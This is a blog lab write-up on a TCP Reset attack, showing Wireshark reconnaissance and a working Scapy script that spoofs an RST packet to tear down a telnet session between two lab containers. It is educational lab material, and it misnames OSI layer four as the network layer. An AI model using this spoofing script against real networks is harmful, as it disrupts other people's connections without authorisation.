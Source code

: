 +++
title = "TCP Attack Lab 1 - TCP Reset"
date = "2023-04-26"
description = "Resetting a TCP connection."

tags = ["network","security","writeups",]
+++


We reset a TCP connection between two hosts on our network.

TCP is a critical protocol at the fourth layer of the OSI model of the network stack, the network layer, yet it has some vulnerabilities. We will reset, hijack, and obtain a reverse shell from a `telnet` connection between two unsuspecting users to demonstrate the vulnerabilities.

In the first part of this series, we will conduct a TCP Reset attack on the `telnet` connection.


# Setup

Please see the series [overview post](/blog/content/posts/tcp-attack-lab) for setup instructions.

 
# Resetting a `telnet` Connection

In this demonstration, I will show how an attacker on the same LAN as two machines that have an existing telnet connection can reset the connection.

First, we need to simulate the `telnet` connection between User 1 and User 2. In one terminal window, establish the connection from user 1 to User 2.


# Reconnaissance 

Then, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

!["wireshark init page"](/blog/images/tcp-reset/wireshark-init.png)

Select the bridge interface.

---

In the `telnet` connection, I run a command like `echo hello` to generate some traffic over the `telnet` connection. 

!["victim telnet connection"](/blog/images/tcp-reset/telnet-init.png)

The existing telnet connection with a command executed. This image also shows the initial command used to establish the connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port number and sequence number used in the RST packet we will spoof from the attacker.

!["wireshark screen capture"](/blog/images/tcp-reset/wireshark.png)

Using Wireshark to construct our RST packet.

---


# Running the exploit

The following code will send our RST packet:

```python
from scapy.all import * 
import argparse
 
def spoof_reset_packet(src_port, seq_num):
  user1_ip = "10.9.0.6"
  user2_ip = "10.9.0.7"
  
  user1_port = src_port
  user2_port = 23
  
  ip = IP(src=user1_ip, dst=user2_ip)
  tcp = TCP(sport=user1_port, dport=user2_port, flags="R", seq=seq_num)
  pkt = ip/tcp
  
  print("SENDING RESET PACKET........")
  send(pkt, verbose=0)
   
if __name__ == "__main__":
  parser = argparse.ArgumentParser()
  parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
  parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)

  args = parser.parse_args()
  spoof_reset_packet(args.src_port, args.seq)
```

For convenience, I designed the program to take in arguments for the source port number and the sequence number. I invoke it as follows with the source port and sequence numbers taken from Wireshark.

!["attack"](/blog/images/tcp-reset/reset-attack.png)

Running the attack program with arguments for source port and sequence number.

---

When we go back to the `telnet` connection, we see that the connection was disconnected.

!["reset connection"](/blog/images/tcp-reset/reset-connection.png)

The telnet connection is reset.

---


# That's it!

In this post we learned about one exploit on TCP connections, namely the TCP Reset attack.

In the next part, we will expand on the knowledge gained from conducting the RST attack to hijack the `telnet` connection to run an arbitrary command.


### _Updated: April 26, 2023_